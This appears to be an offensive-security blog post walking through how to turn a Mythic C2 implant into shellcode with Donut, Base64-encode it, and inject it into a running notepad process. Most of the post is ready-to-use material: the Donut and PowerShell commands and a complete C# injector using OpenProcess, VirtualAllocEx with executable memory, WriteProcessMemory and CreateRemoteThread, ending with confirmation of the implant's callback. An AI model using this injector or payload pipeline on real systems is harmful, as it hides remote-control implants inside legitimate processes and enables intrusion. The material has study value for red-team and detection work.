 ```yaml
---
title: "Injecting dotNet Assemblies to Unmanaged Processes"
author: Felipe Gaspar
date: 2021-02-10 00:00:00 +0800
---
```

This is a quick post to show how you can inject your .NET assembly code to unmanaged processes.

### Generate the ShellCode

As an example, I will be using a Mythic implant. But feel free to develop your own payload.

For this task we will use the Donut project, you can read more about it [here.](https://github.com/TheWover/donut)

The syntax is very simple, we need to indicate our payload (-f), the Class preceded by the Namespace (-c) and the method to be executed (-m). You can specify the system architecture (-a), with 1 for x86 and 2 for amd64:

```powershell
.\donut.exe -f .\atlas_callback.exe -c Atlas.Program -m Main -a 2
```
![](/images/2021-02-10-10-20-35.png)

If all goes well, the file "payload.bin" will be created in the local folder of the project.

![](/images/2021-02-10-10-23-41.png)

This file can already be used in the injection process, but let's do it differently. We will convert the file to Base64 and place it within our code, so we don't need to reference a file inside our final code.

```powershell
[Convert]::ToBase64String([IO.file]::ReadAllBytes((get-location).path + "\payload.bin")) | out-file payload.b64
```
![](/images/2021-02-10-10-29-18.png)
### Process Injection

The code below is a basic implementation of process injection, using _VirtualAllocEx_, _WriteProcessMemory_ and _CreateRemoteThread_. I added a few lines to receive our payload in the necessary format and that's it.

Replace your Base64 payload in the code below and remember to start the chosen process as a target.

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Runtime.InteropServices;
using System.IO;
using System.Diagnostics;

namespace Injection {
    class Program {
    
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        public static void Main(string[] args) {

            string s = @"<B64PAYLOAD>";
            byte[] buf = Convert.FromBase64String(s);
            
            Process[] npProc = Process.GetProcessesByName("notepad");
            int pid = npProc[0].Id;
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)buf.Length, 0x00002000 | 0x00001000, 0x40);
            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        }
    }
}
```
### Conclusion

That's it! Your code will be executed within the target process.

In my case, I can confirm by looking at the callback in Mythic and crossing with the PID of the target process (notepad.exe):

![](/images/2021-02-10-10-45-49.png)
![](/images/2021-02-10-10-42-09.png)

Happy Hacking!
